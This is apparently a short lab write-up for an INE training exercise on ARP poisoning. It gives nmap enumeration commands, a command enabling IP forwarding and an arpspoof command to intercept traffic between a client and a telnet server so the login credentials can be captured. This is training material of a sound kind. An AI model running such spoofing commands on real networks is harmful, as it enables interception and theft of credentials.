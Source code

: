 # 🔬ARP Poisoning

## Lab 3 - ARP Poisoning <a href="#lab-3-arp-poisoning" id="lab-3-arp-poisoning"></a>

> 🔬 _INE Platform Lab_
>
> * **ARP Poisoning** attack to a `telnet` server
>   * the client machine authenticates with the `telnet` server every 30sec
> * Find the `telnet` login credentials
> * Tools: **`arpspoof`** & **`Wireshark`**

## Enumeration

```bash
ip a
```

<figure><img src="../../../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sn 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ARP Poisoining

* Configure the Kali instance to forward IP packets:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

* Perform the ARP poisoning attack

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36   
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
telnet 10.100.13.36
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







